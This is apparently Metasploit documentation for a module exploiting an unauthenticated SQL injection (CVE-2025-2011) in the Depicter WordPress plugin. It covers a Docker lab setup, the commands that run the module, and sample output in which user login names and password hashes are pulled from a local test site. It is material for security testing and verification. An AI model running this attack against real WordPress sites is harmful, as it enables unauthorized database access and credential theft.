 ## Vulnerable Application

The vulnerability affects the **Slider & Popup Builder by Depicter** plugin for WordPress,
versions **up to 3.6.1**, allowing **unauthenticated SQL injection** via the `s` parameter on `admin-ajax.php`.
WordPress itself must be installed.

### Pre-requisites

* **Docker** and **Docker Compose** installed.


## Setup Instructions

1. **Create a `docker-compose.yml`** with:

```yaml
version: '3.1'

   services:
     wordpress:
       image: wordpress:latest
       restart: always
       ports:
         - 5555:80
       environment:
         WORDPRESS_DB_HOST: db
         WORDPRESS_DB_USER: chocapikk
         WORDPRESS_DB_PASSWORD: dummy_password
         WORDPRESS_DB_NAME: exploit_market
       mem_limit: 512m
       volumes:
         - wordpress:/var/www/html

     db:
       image: mysql:5.7
       restart: always
       environment:
         MYSQL_DATABASE: exploit_market
         MYSQL_USER: chocapikk
         MYSQL_PASSWORD: dummy_password
         MYSQL_RANDOM_ROOT_PASSWORD: '1'
       volumes:
         - db:/var/lib/mysql

   volumes:
     wordpress:
     db:
```

2. **Start the environment**

```bash
docker-compose up -d
```

3. **Install Depicter plugin**

```bash
wget https://downloads.wordpress.org/plugin/depicter.3.6.1.zip
unzip depicter.3.6.1.zip
docker cp depicter wordpress:/var/www/html/wp-content/plugins/
```

4. **Activate Depicter**

* Browse to `http://localhost:5555/wp-admin`, log in as admin (create one if needed), and activate **Slider & Popup Builder by Depicter**.
* No additional setup is required.


## Verification Steps

1. **Launch Metasploit**

```bash
msfconsole
```

2. **Load the Depicter SQLi scanner**

```bash
use auxiliary/gather/wp_depicter_sqli_cve_2025_2011
set RHOSTS 127.0.0.1
set RPORT 5555
set TARGETURI /
```

3. **Run the module**

```bash
run
```

4. **Observe output**

The module should:

* Retrieve the database name
* Enumerate tables and infer the `wp_users` table
* Extract `user_login:user_pass` for the number of rows set by `COUNT`

## Options

* **TARGETURI** (`/`): base path to WordPress
* **COUNT** (`1`): number of user rows to retrieve

## Scenarios

```bash
msf6 auxiliary(gather/wp_depicter_sqli_cve_2025_2011) > run http://lab:5555
[*] Retrieving database name via SQLi...
[+] Database name: exploit_market
[*] Enumerating tables for prefix inference...
[+] Tables: wp_commentmeta,wp_comments,wp_depicter_documents,wp_depicter_lead_fields,wp_depicter_leads,wp_depicter_meta,wp_depicter_options,wp_links,wp_options,wp_postmeta,wp_posts,wp_suretriggers_webhook_requests,wp_term_relationships,wp_term_taxonomy,wp_termmeta,wp_terms,wp_ur_membership_ordermeta,wp_ur_membership_orders,wp_ur_membership_subscriptio
[*] Inferred users table: wp_users
[*] Extracting user credentials...
[!] No active DB -- Credential data will not be saved!
[+] Created credential for chocapikk
wp_users
========

    Username   Password Hash
    --------   -------------
    chocapikk  $wp$2y$10$rc5oXfNPG.bYSnbYvELKZeGgoQ9.QHcAXG8U/xunfXzsviMQkiPga

[+] Loot saved to: /home/chocapikk/.msf4/loot/20250514154441_default_127.0.0.1_wordpress.users_167822.txt
[+] Reporting completed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
